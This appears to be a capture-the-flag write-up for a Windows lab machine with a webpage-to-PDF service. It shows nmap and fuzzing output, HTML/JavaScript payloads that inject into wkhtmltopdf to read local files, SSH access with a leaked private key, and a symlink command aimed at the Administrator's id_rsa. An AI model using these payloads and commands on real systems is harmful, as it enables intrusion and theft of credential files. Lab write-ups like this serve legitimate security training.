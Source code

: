 #Pwned! 
```IP
192.168.162.177
```
## Nmap
```
PORT   STATE SERVICE REASON          VERSION
22/tcp open  ssh     syn-ack ttl 125 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:40:e2:ef:21:ea:c1:77:b6:14:a3:f7:04:59:45:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcjA6Du6Xclk6bj2jRxFnRpmqAaGYZBeR4bZ+ZlpEc3HQxgUVtevQcEwV/GkD1uHnkavTJLsV8xf0SxHOxvjlCTHVxCApToP7QQkXH+wNw9kMz8xhzI0fVxvTTWGcOskfxgTfw7AcvYsXmKbJnUwZRaNdr5GtdJqO9jW1WprImYTY7ZSxzfxomZiQj87g21nbY/QSPfeJXbmacl9U52B9KB6StxVCGrS0hL3PIfDbQvGYiDqfH1/0UrE8NsdC3cmf2yMHwrpUXiHv6aMwpOP4WHhsBZgqotqaj5clEq051IylC5RcRGVmPqG5m7Sb1F91L43RLVfp5gSDX/K097bOL
|   256 f8:fb:e3:c6:16:3a:e2:62:d0:e2:ae:d4:f2:9e:6f:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEsNFRln5wL+8mm70Jhj1dYrLiOfcB1bg1sJRbZu84TZhAuaZuab6L3L77D1Iz/o2guD9TyvRvcU3nRIxdvIUxw=
|   256 94:5e:97:ad:f9:0f:81:b6:6b:3b:bd:98:43:c0:0d:6a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPGpJEAiGfo+odXRYF/qTK3JeKYerp7y7Qn6wVd4pByr
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: WebPage to PDF

```

## Nmap UDP


# Enumeration

## HTTP
Fuzz
```
.htaccess               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
.htpasswd               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 38ms]
Logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 28ms]
aux                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
cgi-bin/                [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 35ms]
com2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
com1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
com4                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
com3                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
con                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 27ms]
licenses                [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 33ms]
logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 31ms]
lpt1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
lpt2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
nul                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
pdfs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 30ms]
phpmyadmin              [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 38ms]
prn                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
server-status           [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
server-info             [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
webalizer               [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 46ms]
```
In pdfs we find a private key
https://medium.com/@parab500/part-1-uncovering-the-vulnerability-how-attackers-can-exploit-ssrf-via-pdf-generation-bf91a42b8e67
https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536
Analyzing pdfs 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022104848.png?raw=true)
we confirm the version of wkhtmltopdf is 0.12.3
No parece posible extraer información creando pdfs a partir de html malicioso
```
<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

<body>

<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///Windows/System32/Drivers/etc/hosts");
x.send();
</script>

</body></html>
```
hacktricks payload working
```
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022112313.png?raw=true)

in fact with the user name p4yl0ad in the webpage and the id_rsa leaked we can ssh into the machine
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022115219.png?raw=true)

# PrivEsc

## Manual
https://github.com/googleprojectzero/symboliclink-testing-tools
Por alguna razón no funciona lo que a todo dios le funciona
```
.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
```
## Automated

### Peass
C:\Users\p4yl0ad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

### Mimikatz



